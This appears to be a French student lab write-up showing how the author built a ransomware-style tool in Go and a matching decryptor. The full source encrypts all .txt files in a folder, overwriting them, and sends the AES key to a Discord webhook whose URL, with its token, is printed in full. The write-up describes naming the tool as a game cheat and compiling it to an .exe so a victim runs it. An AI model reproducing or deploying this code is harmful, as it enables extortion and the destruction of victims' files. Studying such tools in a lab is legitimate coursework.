





## 1. Créer un serveur discord avec un webhook

J'ai utilisé le même serveur et Webhook que pour les PS précédents.

## 2. Créer le tool de chiffrement des fichiers

Pour le tool, j'ai pris un script en golang que j'ai trouvé sur [github.](https://gist.github.com/donvito/efb2c643b724cf6ff453da84985281f8) Je l'ai modifié pour qu'il s'éxécute dans "C:\Users\benai\hidden-folder\mdp.txt" et que mon webhook envoie la clé de déchiffrement sur mon serveur discord. 

A la fin, le val_cheat.go ressemble à ca:
```
package main

import (
	"bytes"
	"crypto/aes"
	"crypto/cipher"
	"crypto/rand"
	"encoding/hex"
	"fmt"
	"io"
	"io/ioutil"
	"net/http"
	"path/filepath"
)

func main() {
	// Générer une clé aléatoire pour AES-256
	bytes := make([]byte, 32) // 32 bytes = 256 bits
	if _, err := rand.Read(bytes); err != nil {
		panic(err.Error())
	}

	// Encoder la clé en string hexadécimale
	key := hex.EncodeToString(bytes)
	fmt.Printf("Clé générée pour le chiffrement : %s\n", key)

	// Envoyer la clé au webhook
	sendKeyToWebhook(key, "https://discord.com/api/webhooks/1317566707765743716/MYkq5CE-sHFAuylm11w7XN0fWfxgU3FN81_xuKtkVH7LKA_kVHT75fy7GKQDV3fDGSzR")

	// Chemin vers le dossier contenant les fichiers .txt
	folderPath := `C:\Users\benai\hidden-folder\`

	// Parcourir tous les fichiers .txt dans le dossier
	files, err := filepath.Glob(filepath.Join(folderPath, "*.txt"))
	if err != nil {
		panic(err)
	}

	// Pour chaque fichier, lire et chiffrer son contenu
	for _, file := range files {
		content, err := ioutil.ReadFile(file)
		if err != nil {
			fmt.Printf("Erreur lors de la lecture du fichier %s: %v\n", file, err)
			continue
		}

		// Chiffrer le contenu du fichier
		encrypted := encrypt(string(content), key)

		// Remplacer le contenu du fichier par la version chiffrée
		err = ioutil.WriteFile(file, []byte(encrypted), 0644)
		if err != nil {
			fmt.Printf("Erreur lors de l'écriture du fichier %s: %v\n", file, err)
			continue
		}

		fmt.Printf("Fichier %s chiffré avec succès.\n", file)
	}
}

// Fonction pour envoyer la clé au webhook Discord
func sendKeyToWebhook(key string, webhookURL string) {
	payload := fmt.Sprintf(`{"content": "Clé générée : %s"}`, key)
	_, err := http.Post(webhookURL, "application/json", bytes.NewBuffer([]byte(payload)))
	if err != nil {
		fmt.Printf("Erreur lors de l'envoi de la clé au webhook : %v\n", err)
	}
}

func encrypt(stringToEncrypt string, keyString string) (encryptedString string) {
	key, _ := hex.DecodeString(keyString)
	plaintext := []byte(stringToEncrypt)

	// Créer un nouveau bloc de chiffrement avec la clé
	block, err := aes.NewCipher(key)
	if err != nil {
		panic(err.Error())
	}

	// Créer un GCM
	aesGCM, err := cipher.NewGCM(block)
	if err != nil {
		panic(err.Error())
	}

	// Créer un nonce
	nonce := make([]byte, aesGCM.NonceSize())
	if _, err = io.ReadFull(rand.Reader, nonce); err != nil {
		panic(err.Error())
	}

	// Chiffrer les données en utilisant aesGCM.Seal
	ciphertext := aesGCM.Seal(nonce, nonce, plaintext, nil)
	return fmt.Sprintf("%x", ciphertext)
}
```
Pour le rendre éxécutable je l'ai converti en .exe pour qu'une fois ouvert sur mon PC victime, il s'exécute lorsque la victime l'ouvre. Je le fais passer par pype.sellan.fr pour le télécharger sur ma VM.


## 3. Envoyer la clef sur discord
Mon fichier de mot de passe ressemblait à ca:




Une fois le val_cheat.exe lancé, mon fichier est entièrement chiffré de cette manière: 



La clé de déchiffrement m'est envoyée sur discord par mon frérot Nautilus:




## 4. Développez le tool de déchiffrement. 

Pour faire le decrypt.go, je me suis basé sur le val_cheat.go:

```
package main

import (
	"crypto/aes"
	"crypto/cipher"
	"encoding/hex"
	"fmt"
	"io/ioutil"
	"path/filepath"
)

func main() {
	// Demander la clé de déchiffrement via le terminal
	var key string
	fmt.Print("Entrez la clé de déchiffrement : ")
	fmt.Scanln(&key)

	// Chemin vers le dossier contenant les fichiers .txt
	folderPath := `C:\Users\paph\Desktop\test`

	// Parcourir tous les fichiers .txt dans le dossier
	files, err := filepath.Glob(filepath.Join(folderPath, "*.txt"))
	if err != nil {
		panic(err)
	}

	// Pour chaque fichier, lire et déchiffrer son contenu
	for _, file := range files {
		content, err := ioutil.ReadFile(file)
		if err != nil {
			fmt.Printf("Erreur lors de la lecture du fichier %s: %v\n", file, err)
			continue
		}

		// Déchiffrer le contenu du fichier
		decrypted := decrypt(string(content), key)

		// Remplacer le contenu du fichier par la version déchiffrée
		err = ioutil.WriteFile(file, []byte(decrypted), 0644)
		if err != nil {
			fmt.Printf("Erreur lors de l'écriture du fichier %s: %v\n", file, err)
			continue
		}

		fmt.Printf("Fichier %s déchiffré avec succès.\n", file)
	}
}

// Fonction pour déchiffrer les données
func decrypt(encryptedString string, keyString string) string {
	key, _ := hex.DecodeString(keyString)
	ciphertext, _ := hex.DecodeString(encryptedString)

	// Créer un bloc de chiffrement avec la clé
	block, err := aes.NewCipher(key)
	if err != nil {
		panic(err)
	}

	// Créer un GCM
	aesGCM, err := cipher.NewGCM(block)
	if err != nil {
		panic(err)
	}

	// Extraire le nonce
	nonceSize := aesGCM.NonceSize()
	nonce, ciphertext := ciphertext[:nonceSize], ciphertext[nonceSize:]

	// Déchiffrer les données
	plaintext, err := aesGCM.Open(nil, nonce, ciphertext, nil)
	if err != nil {
		panic(err)
	}

	return string(plaintext)
}
```


Je le converti en decrypt.exe et je l'éxécute sur mon PC victime, j'y entre la clé de déchiffrement:


Je réouvre mon mdp.txt et mes mots de passe ont été déchiffrés

